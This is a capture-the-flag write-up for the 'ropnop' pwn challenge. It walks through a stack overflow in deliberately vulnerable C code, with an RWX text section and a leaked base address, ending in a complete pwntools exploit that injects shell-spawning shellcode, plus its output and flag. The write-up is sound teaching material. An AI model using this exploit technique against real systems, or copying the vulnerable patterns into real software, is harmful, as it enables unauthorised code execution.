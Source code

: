 # ropnop

**Author**: `Managarmr`

## Table of Contents

1. [Challenge](#1-challenge)
2. [Having a look](#2-having-a-look)
3. [Restoring the shop](#3-restoring-the-shop)
4. [Final exploit](#4-final-exploit)
5. [Mitigations](#5-mitigations)

## 1. Challenge

**Category**: `Pwn`  
**Difficulty**: `Medium`  
**Author**: `Flo`  
**Attachments**: [ropnop](https://static.allesctf.net/challenges/eb61fbc445d3a645f91a92b0a8914a487bc3589d5b5bbe4221e48be0db6333b1/ropnop)
[ropnop.c](https://static.allesctf.net/challenges/40a62691855af0000749c9aff5f917eeaed9d19c16c3b61038d32a067c081e8d/ropnop.c)  
**Description**:

I heard about this spooky exploitation technique called
[ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) recently.

These haxxors don't know who they're dealing with though. With ropnop™, I made
sure that nobody can exploit my sketchy C code!

Here's a demo:

`nc hax1.allesctf.net 9300`

## 2. Having a look

In this pwning challenge we are provided with the source code, so let's just
have a look at it first. There's an interesting function called `gadget_shop`:

```c
void gadget_shop() {
	// look at all these cool gadgets
	__asm__("syscall; ret");
	__asm__("pop %rax; ret");
	__asm__("pop %rdi; ret");
	__asm__("pop %rsi; ret");
	__asm__("pop %rdx; ret");
}
```

It appears as if it was placed there in order to taunt us, but we don't really
care as it's putting some really nice gadgets for us to use in a `ROP` attack.

There are only two other function which do anything useful, one of them being
`ropnop`, which `mprotect`s the `text` section and replaces all `ret`
instructions with `nop`s. Well not really what it _really_ does is replace all
`0xc3` bytes with `0x90`, which happen to encode `ret` and `nop`, but apply to
more as well - addresses, constants, etc.

```c
void ropnop() {
	unsigned char *start = &__executable_start;
	unsigned char *end = &etext;
	printf("[defusing returns] start: %p - end: %p\n", start, end);
	mprotect(start, end-start, PROT_READ|PROT_WRITE|PROT_EXEC);
	unsigned char *p = start;
	while (p != end) {
		// if we encounter a ret instruction, replace it with nop!
		if (*p == 0xc3)
			*p = 0x90;
		p++;
	}
}
```

The function is also nice enough to defeat ASLR by printing the address of the
`text` section for us.

The last function just let's us overwrite the stack without any hassle:

```c
int main(void) {
	init_buffering();
	ropnop();
	int* buffer = (int*)&buffer;
	if (read(0, buffer, 0x1337) < 0)
		puts(strerror(errno));
	return 0;
}
```

## 3. Restoring the shop

The `ropnop` function essentially makes the shop useless for us as we need some
`ret`s in there. So let's restore it. Looking at the disassembly of `main` we
can see that we are able to write `%rax` into any memory location we like:

```
    12cf:       e8 6c fd ff ff          callq  1040 <read@plt>
    12d4:       31 c9                   xor    %ecx,%ecx
    12d6:       48 89 45 e8             mov    %rax,-0x18(%rbp)
    12da:       89 c8                   mov    %ecx,%eax
    12dc:       48 83 c4 20             add    $0x20,%rsp
    12e0:       5d                      pop    %rbp
    12e1:       c3                      retq
```

In order to do this, we only need to overwrite the stack in such a way that
`%rbp` will be populated with the target address + `0x18` and return for a
second `read` call as the buffer address (`%rsi`) itself is not modified.

This only works because the `text` section is still `RWX`, but it still works.
So what to fix is the real question? Well this depends on the approach we want
to take, do we want to use the `syscall` instruction in the binary? Well it's
one possible option, but there is a much easier one: As we can use `read` and
the `text` section is `RWX`, why not just adjust `%rsi` in order to write our
shellcode directly after the `read`?

## 4. Final exploit

Doing just that will let us obtain a shell trivially.

The full exploit looks like this:

```python
#!/usr/bin/env python3
from pwn import *

# Setup
context(arch='amd64')

# Target definition
target = remote('hax1.allesctf.net', 9300)
# target = process("./ropnop")

FIXME_RET_OFFSET = 0x11ec # retq after "pop %rsi"
WRITE_RAX_OFFSET = 0x12d6 # write
SHELLCODE_OFFSET = 0x12d4 # main() after read
POP_RSI_OFFSET = 0x11eb
SYSCALL_OFFSET = 0x11e4
READ_OFFSET = 0x12cf

addresses = target.recvline_contains(b'start: ')
base = int(addresses.split(b':')[1][3:15], 16)

# Setup to fix the broken ret
# (set rbp so that mov eax, -0x18(%rbp) will set it to 0xc3)
# and setup to read again
payload_1 = (b'x'*16 +
	p64(base + FIXME_RET_OFFSET + 0x18) +
	p64(base + READ_OFFSET))

# Fix the broken ret and push the correct buffer address for the syscall
# Filler of 0x28 in read()
payload_2 = (b'x'*24 +
	p64(base + WRITE_RAX_OFFSET) +
	b'x'*0x28 +
	p64(base + POP_RSI_OFFSET) +
	p64(base + SHELLCODE_OFFSET) +
	p64(base + READ_OFFSET))
payload_2 += b'x' * (0xc3 - len(payload_2) - 1)

# The actual shellcode
payload_3 = asm(shellcraft.sh())

sleep(0.1)
target.sendline(payload_1)
sleep(0.1)
target.sendline(payload_2)
sleep(0.1)
target.sendline(payload_3)
sleep(0.1)
target.interactive()
```

Running it provides the following output:

```
$ ./solve.py
[+] Opening connection to hax1.allesctf.net on port 9300: Done
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls
flag
meme.jpg
ropnop
ynetd
$ cat flag
CSCG{s3lf_m0d1fy1ng_c0dez!}
$ 
```

Thus earning us the flag: `CSCG{s3lf_m0d1fy1ng_c0dez!}`

## 5. Mitigations

In order to mitigate this exploit, one should never leave sections marked as
`RWX` - I mean what is this? 1990? Also `ASLR` exists for a reason - don't just
happily hand out base addresses. Being careful of buffer overflows would also
help, but I believe this to be a mute point, as anyone integrating a `read` call
like this in non-ctf binaries is either of questionable sanity or sick of their
job :).
